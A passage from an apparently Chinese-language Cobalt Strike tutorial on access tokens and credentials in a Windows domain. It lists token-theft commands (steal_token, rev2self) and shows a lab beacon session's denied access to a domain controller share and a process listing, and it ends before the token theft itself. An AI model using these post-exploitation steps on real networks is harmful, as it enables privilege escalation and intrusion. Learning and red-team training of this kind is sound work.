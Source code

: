 ![](https://teamssix.oss-cn-hangzhou.aliyuncs.com/cs16-1.png)

终于把碰到的坑都填完了，睡觉……

## 4、获取信任

如果当前账号权限被系统认为是本地管理员权限，那么就可以执行很多管理员才能做的事，接下来就来看一下这样的一个过程是如何工作的，其中会涉及到以下要点：

1、`Access Token` 登录令牌

2、`Credentials` 凭证

 3、`Password Hashes` 密码哈希

4、`Kerberos Tickets` 登录凭据

### 登录令牌

* 登录令牌在登录之后被创建
* 与每个进程和线程相关联
* 包括：
  * 用户和用户组的信息
  * 本地计算机上的特权列表
  * 限制（删除用户和用户组的权限）
  * 参考凭证（支持单点登录）
* 一直保存在内存中，直到系统重启

*以下是令牌窃取的过程：*

* 使用 `ps` 列出进程
* 使用 `steal_token [pid]` 窃取令牌
* 使用 `getuid` 找到你是谁
* 使用 `rev2self` 移除令牌

接下来将对这些命令进行演示，目前有一个 SYSTEM 权限的会话，该会话在 WIN-72A8ERDSF2P 主机下，此时想查看 WIN-P2AASSD1AF1 主机下的文件（WIN-P2AASSD1AF1 主机是 TEAMSSIX 域的域控制器），那么直接运行 dir 会提示拒绝访问。

```powershell
beacon> shell dir \\WIN-P2AASSD1AF1\C$
[*] Tasked beacon to run: dir \\WIN-P2AASSD1AF1\C$
[+] host called home, sent: 55 bytes
[+] received output:
拒绝访问。
```

此时，先用 `ps` 查看一下当前系统进程信息。

```powershell
beacon> ps
[*] Tasked beacon to list processes
[+] host called home, sent: 12 bytes
[*] Process List
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 0     0     [System Process]                               
 4     0     System                       x64   0           NT AUTHORITY\SYSTEM
……内容太多，此处省略……
 3720  524   taskhost.exe                 x64   2           WIN-72A8ERDSF2P\Administrator
 4092  236   dwm.exe                      x64   3           TEAMSSIX\Administrator
```

